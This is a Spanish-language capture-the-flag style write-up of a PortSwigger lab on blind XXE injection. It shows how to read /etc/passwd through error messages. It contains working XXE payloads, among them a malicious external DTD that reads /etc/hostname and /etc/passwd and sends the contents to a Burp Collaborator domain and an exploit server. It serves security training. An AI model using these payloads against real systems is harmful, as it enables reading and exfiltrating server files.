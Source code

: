 ```yaml
---
title: "XXE Injection Lab 6"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to retrieve data via error messages
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting blind XXE to retrieve data via error messages

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que analiza entradas en `formato XML`, pero `no muestra` el `resultado`. Para resolver el laboratorio, hay que utilizar un `DTD externo` para `provocar` un `mensaje` de `error` que `muestre` el `contenido` del archivo `/etc/passwd`. El laboratorio incluye un enlace a un `servidor` de `exploits` en un dominio diferente donde podemos alojar un `DTD malicioso`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-6/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-6/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-6/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero la `web` con `responde` con un `mensaje` de `Entities are not allowed for security reasons`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-6/image_4.png)

Al `enviar` la `petición` obtenemos una `respuesta` que `refleja` un `error`

![](/assets/img/XXE-Injection-Lab-6/image_5.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname`

![](/assets/img/XXE-Injection-Lab-6/image_6.png)

Sin embargo, no nos pide el `/etc/hostname`, lo que nos pide es el `/etc/passwd` y mediante el método anterior no podemos obtenerlo debido a que tiene más de una línea. Podríamos usar este `payload` pero `no funciona` el `wrapper` de `php` que `encodea` en `base64`

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Debido a que cada vez que enviamos una petición `obtenemos` un `mensaje` de `error` podemos `exfiltrar data` mediante este `mensaje` de `error`. Lo primero es `craftearnos` un `entity` que `cargue` el `/etc/passwd` y luego otro `entity` que `cargue` un `archivo inexistente` provocando así un `error`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noExiste/%file;'>">
%eval;
%exfil;
```

`Enviamos` nuestra `petición` a nuestro `servidor` donde se encuentra el `exploit`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

El `servidor` nos `muestra` en el `error` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-6/image_7.png)
